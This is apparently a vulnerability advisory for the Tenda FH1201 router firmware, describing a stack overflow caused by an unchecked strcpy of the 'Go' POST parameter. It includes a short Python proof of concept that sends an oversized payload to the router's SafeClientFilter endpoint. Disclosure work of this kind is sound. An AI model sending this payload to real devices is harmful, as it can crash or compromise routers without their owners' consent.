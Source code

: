 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `Go` parameter from a POST request. The statement `strcpy(v15, v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240731134818205](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731134818205.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer": "tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731134920382](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731134920382.png)